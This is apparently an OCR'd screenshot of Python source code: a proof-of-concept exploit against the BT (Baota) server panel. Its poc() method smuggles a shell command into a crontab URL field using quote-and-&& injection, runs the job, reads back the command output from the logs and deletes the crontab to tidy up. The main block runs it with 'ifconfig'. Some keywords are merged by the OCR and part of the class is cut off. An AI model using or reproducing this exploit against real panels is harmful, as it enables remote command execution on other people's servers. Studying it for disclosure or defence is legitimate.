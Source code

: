 ```
    def get_logs(self, id):
       url = self.__BT_PANEL + '/crontab?action=GetLogs'

       p_data = self.__get_key_data()
       p_data['id'] = id

       result = self.__http_post_cookie(url, p_data)
       return json.loads(result)

    def del_crontab(self, id):
       url = self.__BT_PANEL + '/crontab?action=DelCrontab'

       p_data = self.__get_key_data()
       p_data['id'] = id
       result = self.__http_post_cookie(url, p_data)
       return json.loads(result)

    def poc(self, cmd):
       data = self.add_crontab(f&#34;https://www.baidu.com' && {cmd} && echo '&#34;)
       if data['status'] is not True:
          returnprint(&#34;该主机不存在此漏洞&#34;)
       print(f&#34;正在运行命令：{cmd}&#34;)
       start = self.start_crontab(data['id'])
       if start['status'] is not True:
          returnprint(&#34;命令运行失败！&#34;)
       print(&#34;正在获取命令运行结果&#34;)
       time.sleep(3)
       logs = self.get_logs(data['id'])
       if logs['status'] is not True:
          returnprint(&#34;命令运行失败或未运行！&#34;)
       print(f&#34;命令运行结果：\n{logs['msg']}&#34;)
       self.del_crontab(data['id'])

    def __get_md5(self, s):
       m = hashlib.md5()
       m.update(s.encode('utf-8'))
       return m.hexdigest()


       # 构造带有签名的关联数组

    def __get_key_data(self):
       now_time = int(time.time())
       p_data = {
          'request_token': self.__get_md5(str(now_time) + '' + self.__get_md5(self.__BT_KEY)),
          'request_time': now_time
       }
       return p_data

    def __http_post_cookie(self, url, p_data, timeout=1800):
       return requests.post(url, data=p_data, timeout=timeout).text


if __name__ == '__main__':
    my_api = bt_panel()

    # 调用get_logs方法
    r_data = my_api.poc(&#34;ifconfig&#34;)

    # 打印响应数据
    print(r_data)


```